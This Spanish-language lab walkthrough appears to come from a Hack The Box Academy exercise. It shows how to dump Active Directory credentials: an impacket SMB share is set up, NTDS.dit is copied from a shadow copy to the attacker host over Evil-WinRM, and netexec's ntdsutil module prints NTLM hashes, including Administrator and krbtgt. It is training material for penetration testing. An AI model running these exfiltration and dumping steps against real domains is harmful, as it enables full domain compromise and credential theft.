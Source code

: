 
Me indica que se ha guardado en: "\\\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1"

En atacante linux ejecuto:
```
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
Y me aseguro que se creen:
```
sudo mkdir -p /tmp/smbshare
sudo chmod 777 /tmp/smbshare
ls -ld /tmp/smbshare
cd /tmp/smbshare
```

En víctima ejecuto:
```
net use N: \\10.10.14.107\share /user:test test
```

Y dentro de la terminal "*Evil-WinRM* PS C:\Users\jmarston\Documents> " ejecuto:
```
*Evil-WinRM* PS C:\Users\jmarston\Documents> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit N:\
        1 file(s) copied.
```

Vuelvo al atacante Linux y lo encuentro en:
```
┌─[eu-academy-3]─[10.10.15.71]─[htb-ac-1876550@htb-zmumfwlpqh]─[/tmp/smbshare]
└──╼ [★]$ ls
ntds.dit
```


Ejecuto:
```
netexec smb 10.129.202.85 -u jmarston -p P@ssword! -M ntdsutil
```

Y obtengo:
```
┌─[eu-academy-3]─[10.10.15.71]─[htb-ac-1876550@htb-zmumfwlpqh]─[/tmp/smbshare]
└──╼ [★]$ netexec smb 10.129.202.85 -u jmarston -p P@ssword! -M ntdsutil
SMB         10.129.202.85   445    ILF-DC01         [*] Windows 10 / Server 2019 Build 17763 x64 (name:ILF-DC01) (domain:ILF.local) (signing:True) (SMBv1:False)
SMB         10.129.202.85   445    ILF-DC01         [+] ILF.local\jmarston:P@ssword! (Pwn3d!)
NTDSUTIL    10.129.202.85   445    ILF-DC01         [*] Dumping ntds with ntdsutil.exe to C:\Windows\Temp\176010496
NTDSUTIL    10.129.202.85   445    ILF-DC01         Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.129.202.85   445    ILF-DC01         [+] NTDS.dit dumped to C:\Windows\Temp\176010496
NTDSUTIL    10.129.202.85   445    ILF-DC01         [*] Copying NTDS dump to /tmp/tmpoov18era
NTDSUTIL    10.129.202.85   445    ILF-DC01         [*] NTDS dump copied to /tmp/tmpoov18era
NTDSUTIL    10.129.202.85   445    ILF-DC01         [+] Deleted C:\Windows\Temp\176010496 remote dump directory
NTDSUTIL    10.129.202.85   445    ILF-DC01         [+] Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.129.202.85   445    ILF-DC01         Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
NTDSUTIL    10.129.202.85   445    ILF-DC01         Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.129.202.85   445    ILF-DC01         ILF-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e59d1df920b937ba2f344c6447869589:::
NTDSUTIL    10.129.202.85   445    ILF-DC01         krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cfa046b90861561034285ea9c3b4af2f:::
NTDSUTIL    10.129.202.85   445    ILF-DC01         ILF.local\jmarston:1103:aad3b435b51404eeaad3b435b51404ee:2b391dfc6690cc38547d74b8bd8a5b49:::
```